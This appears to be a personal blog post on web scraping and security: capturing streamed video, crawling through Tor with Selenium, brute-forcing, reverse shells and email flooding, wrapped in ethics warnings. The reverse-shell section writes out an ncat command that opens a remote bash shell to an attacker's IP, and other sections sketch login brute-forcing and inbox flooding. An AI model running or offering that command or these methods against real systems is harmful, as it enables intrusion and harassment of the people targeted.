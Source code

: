 ```yaml
---
title: "Web Scraping, Security, and Ethical Considerations"
date: Sat Aug 12 2023 01:40:12
type: web
---
```


Reminder: This blog post is for educational purposes only. All information provided should be used ethically and legally. Misuse of these techniques can result in serious legal consequences.

Being able to do something is not a justification to do so. Please don't do this. Technology is for ensuring your freedom, not for harming others.

## Scraping Videos 

These tools should only be used for legal purposes. Neglecting copyright is a serious issue

Video content can often be a target for scraping. For example, some video sites use HTML tags like: `<video src="blob:https://www.youtube.com/34b0564d-9f35-4581-bf5c-eed542280a0b"></video>`. Even though blob URLs obscure the source, they often load m3u8 or ts files. An m3u8 file usually consists of many segments of video files (they are combined together). It is possible to do so using an HLS sniffer. Selenium can also be used to capture the performance logs and extract URLs. Please always comply to terms and don't use steamlink for unlawful purposes.

## Tor Crawling

Warning: Be cautious about the Dark Web as it contains disturbing content. It is not advised to visit the Dark Web, nor use Tor for unethical purposes. 

Only use tor crawling when anonymity is a priority and when you adhere to platform's rules. In Selenium, specifically
```
options=Options()
options.set_preference("network.proxy.type", 1)
options.set_preference("network.proxy.socks", "127.0.0.1")
options.set_preference("network.proxy.socks_port", 9050)
options.set_preference("network.proxy.socks_version", 5)
options.set_preference("network.proxy.socks_remote_dns", True)
browser = Firefox(options=options)
```

## Understanding Brute-Forcing

Ethical Reminder: This is illegal and unethical. Do not engage in brute-forcing. Instead, focus on strengthening your defenses.

Always use secure passwords by utilizing KeePass(offline password manager) to generate high entropy passwords. Simple security practice makes you the harder target. It is a great way to stop attackers from gaining access(if a weak website leaked the password with a weak hash). It is advised when designing a web server use a difficult captcha when users log in, and utilize Cloudflare for protection. Cloudflare's Captcha is excellent for individual developers to protext DDOS.

Attackers might use multiple IPs to attempt brute-forcing passwords by sending numerous requests with selenium sendkeys, like `button=driver.find_element()` and `button.click()`. Small websites with weak security are usually more targeted.

## Reverse Shell

Always safeguard cloud machines with public ipv4 as they are the targets of many random attacks. On my Linode machine I could see people trying sshd passwords. Don't delete the root password or use a weak root password!

Some malicious programs gain access (espeically on Windows exes) to the network! It is important to download from secure sources(like official ArchLinux packages and inspecting the PKGBUILD). Some malicious programs may gain access to the network to participate in DDOS.

I tried this experiment with my Linode. I can gain remote access to my Linode machine by using ncat. On the Linode machine `nohup ncat [attacker's IP] [port] -e /bin/bash &` On my laptop listen, after this I gain access to execute bash script on my laptop. Only do this in a controlled environment and adheres to laws!


## Email Concerns

Respect the privacy of emails.

Potential Threats: Attackers might flood a victim’s email by subscribing to mailing lists(designed not to go to spam), causing an inundated inbox. 

## Conclusion

It is important to follow the rules and use official APIs when crawling the website. Not everything feasible is legal and justified.


## References

- [YouTube Terms of Service](https://www.youtube.com/t/terms)
- [Fetchv](https://fetchv.net/)
- [Tor Project](https://www.torproject.org/)
- [NetworkManager CLI](https://developer.gnome.org/NetworkManager/stable/nmcli.html)
